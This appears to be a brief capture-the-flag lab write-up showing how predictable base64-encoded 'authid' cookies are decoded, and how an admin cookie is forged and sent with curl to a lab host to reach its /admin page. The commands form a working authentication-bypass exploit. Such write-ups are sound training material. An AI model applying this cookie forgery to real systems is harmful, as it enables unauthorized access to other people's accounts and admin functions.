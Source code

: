 ## Found `authid` pattern
```
$ echo 'dGVzdHY0ZXI5bGwxIXNz' | base64 -d
testv4er9ll1!ss%
$ echo 'aGVsbG92NGVyOWxsMSFzcw==' | base64 -d
hellov4er9ll1!ss%
```

## Login as admin
```
$ echo -n 'mcinventoryv4er9ll1!ss' | base64
bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw==
$ curl -H 'Cookie: authid=bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw==' http://10.10.113.56:3000/home
Found. Redirecting to /admin
```


